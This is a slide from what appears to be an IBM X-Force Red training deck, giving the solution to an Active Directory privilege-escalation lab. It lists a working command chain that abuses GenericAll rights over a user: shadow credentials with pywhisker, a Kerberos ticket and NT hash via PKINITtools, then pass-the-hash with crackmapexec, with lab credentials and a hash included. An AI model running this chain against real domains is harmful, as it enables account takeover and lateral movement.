

# AD Privilege Escalation > Lab 3 – Solution
  It looks like our backup user has some interesting permissions over a certain user...
GenericAll over Richardson
Commands to exploit
python3 /opt/pywhisker/pywhisker.py -u backup -p backup1 -d fmradio.local -t richardson --dc-ip 172.16.14.200 --action add
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx $file.pfx  -pfx-pass $pass -dc-ip 172.16.14.200 fmradio.local/richardson richardson.ccache
export KRB5CCNAME=richardson.ccache
python3 /opt/PKINITtools/getnthash.py fmradio.local/richardson -key $key -dc-ip 172.16.14.200
cme smb 172.16.14.200 –u richardsdon –H 72a4f9efa7db470bca0038a549faff11

IBM Security X-Force Red / © 2022 IBM Corporation
36